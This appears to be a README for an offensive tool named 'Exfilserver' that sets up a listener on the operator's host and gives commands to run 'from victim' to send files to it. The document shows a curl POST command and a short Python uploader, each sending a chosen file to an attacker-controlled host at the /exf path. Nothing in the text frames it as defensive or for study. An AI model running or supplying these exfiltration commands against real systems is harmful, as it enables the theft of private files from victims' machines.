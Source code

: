 ## Exfilserver

> Data exfiltration via upload using curl or similar...

### Run in you host:

```
python3 server.py -p 80 -f /tmp/files
```

### Upload from victim:

> By Curl:

```sh
curl -X POST -F "file=@./file" http://<youhostname>:80/exf
```

> By python:
```
import requests
import sys

def upload_file(server_url, file_path):
    url = f"{server_url}/exf"
    try:
        with open(file_path, 'rb') as f:
            files = {'file': (file_path, f)}
            response = requests.post(url, files=files)
        print(f"[*] Status: {response.status_code}")
        print(f"[*] Response of server: {response.text}")
    except Exception as e:
        print(f"[!] Error to send file: {e}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python {sys.argv[0]} <server_url> <file_path>")
        sys.exit(1)

    server_url = sys.argv[1]   # example: http://127.0.0.1:5000
    file_path = sys.argv[2]
    upload_file(server_url, file_path)
```

